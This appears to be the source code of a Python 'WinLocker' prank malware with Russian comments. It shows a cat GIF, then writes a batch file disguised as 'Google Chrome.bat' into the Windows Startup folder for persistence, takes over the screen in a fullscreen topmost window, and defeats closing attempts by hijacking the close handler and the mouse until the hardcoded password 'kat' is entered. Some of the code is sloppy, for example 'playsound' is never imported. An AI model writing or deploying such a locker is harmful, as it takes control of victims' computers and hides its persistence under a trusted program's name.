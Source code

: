 #ВАЖНО ПАРОЛЬ:kat

import tkinter
from tkinter import *
import tkinter as tk
from tkinter import ttk
import getpass
import sys
import os
import os.path
import pyautogui
from time import sleep
import requests
from io import BytesIO
from PIL import Image, ImageTk

url = 'https://i.gifer.com/LF0M.gif' #Этоу гифку необходимо скачать и поместить в один фаил с кодом

window = Tk() #Создание окна 

photo = PhotoImage(file = "bg.gif") # Отвечает за картинку
w = Label(window, image=photo)
w.pack() 

b1= Button(window, text='Нажми на меня', command=window.destroy) #Отвечает за кнопку закрытия
b1.pack(pady=10)


window.resizable(0, 0) # Отвечает за изменение окна 


window.title("Kat")   # Название окна
window['bg'] = 'black'


window.mainloop() #Закрыть окно

USER_NAME = getpass.getuser()

window = Tk()
window.title("WinLocker by GDisclaimer")  
window.geometry('400x250')
window['bg'] = 'black'

# Base size
normal_width = 1920
normal_height = 1080

# Get screen size
screen_width = window.winfo_screenwidth()
screen_height = window.winfo_screenheight()

# Get percentage of screen size from Base size
percentage_width = screen_width / (normal_width / 100)
percentage_height = screen_height / (normal_height / 100)

# Make a scaling factor, this is bases on average percentage from
# width and height.
scale_factor = ((percentage_width + percentage_height) / 2) / 100

# Set the fontsize based on scale_factor,
# if the fontsize is less than minimum_size
# it is set to the minimum size

fontsize = int(20 * scale_factor)
minimum_size = 10
if fontsize < minimum_size:
       fontsize = minimum_size

fontsizeHding = int(72 * scale_factor)
minimum_size = 40
if fontsizeHding < minimum_size:
       fontsizeHding = minimum_size

# Create a style and configure for ttk.Button widget
default_style = ttk.Style()
default_style.configure('New.TButton', font=("Helvetica", fontsize))

def play(test):
        playsound('sound.mp3', False)

def add_to_startup(file_path=""):
    if file_path == "":
        file_path = os.path.dirname(os.path.realpath(__file__))
    bat_path = r'C:\Users\%s\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup' % USER_NAME
    with open(bat_path + '\\' + "Google Chrome.bat", "w+") as bat_file:
        bat_file.write(r'start "" %s' % file_path)

def block():
    pyautogui.moveTo(x=680,y=800)
    window.protocol("WM_DELETE_WINDOW",block)
    window.update()

def fullscreen():
    window.attributes('-fullscreen', True, '-topmost', True)

def clicked():
    res = format(txt.get())
    if res == 'kat':
        file_path = '/tmp/file.txt'
        file_path = r'C:\Users\%s\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\Google Chrome.bat' % USER_NAME
        os.remove(file_path)
        sys.exit()

add_to_startup("C:\\myFiles\\main.py")
fullscreen()

txt_one = Label(window, text='KatLocker', font=("Arial Bold", fontsizeHding), fg='red', bg='black')
txt_two = Label(window, text='Мяу 😀', font=("Arial Bold", fontsizeHding), fg='red', bg='black')
txt_three = Label(window, text='К сожалению ваш компютер отакован котиком', font=("Arial Bold", fontsize), fg='white', bg='black')

txt_one.grid(column=0, row=0)
txt_two.grid(column=0, row=0)
txt_three.grid(column=0, row=0)

txt_one.place(relx = .01, rely = .01)
txt_two.place(relx = .01, rely = .11)
txt_three.place(relx = .01, rely = .21)


txt = Entry(window)  
btn = Button(window, text="Котик вводиться туть ;)", command=clicked)  
txt.place(relx = .28, rely = .5, relwidth=.3, relheight=.06)
btn.place(relx = .62, rely = .5, relwidth=.1, relheight=.06)

block()

window.mainloop()
#ВАЖНО ПАРОЛЬ:kat
